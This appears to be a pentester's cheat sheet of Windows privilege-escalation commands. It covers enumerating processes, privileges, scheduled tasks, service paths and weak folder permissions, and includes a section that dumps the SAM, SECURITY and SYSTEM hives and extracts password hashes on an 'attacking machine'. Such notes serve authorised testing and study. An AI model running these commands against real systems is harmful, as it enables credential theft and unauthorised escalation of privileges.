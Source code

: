 #### tasklist run by current user

```tasklist -v```

-----


#### accesschk

*https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account?redirectedfrom=MSDN*

```accesschk.exe /accepteula -qwcu "Authenticated Users" *```

-----


#### firewall

```netsh firewall show state```

```netsh firewall show config```

-----


#### privs

```whoami /priv```

-----


#### scheduled tasks

```schtasks /query /fo list /v```

-----


#### file privs

```dir file.txt /s /p```

```icacls "c:\program files\whatever"```

-----


#### wmic

```wmic useraccount get name,sid```

```cmd /c 'wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:windows\" |findstr /i /v """'```

-----


#### SAM dump

*SAM file: C:\Windows\system32\config*

*backup SAM reg key*

```reg save hklm\sam sam.save```

*backup security reg key*

```reg save hklm\security security.save```

*backup system reg key*

```reg save hklm\system system.save```

*On attacking machine:*

```samdump2 system.save sam.save```

```pwdump system.save sam.save```

-----


#### show files and folders in "Program Files" with (F)ull permissions set for "Everyone"

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
```

-----


#### show files and folders in "Program Files" with (F)ull permissions set for "BUILTIN\Users"

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 
```

-----





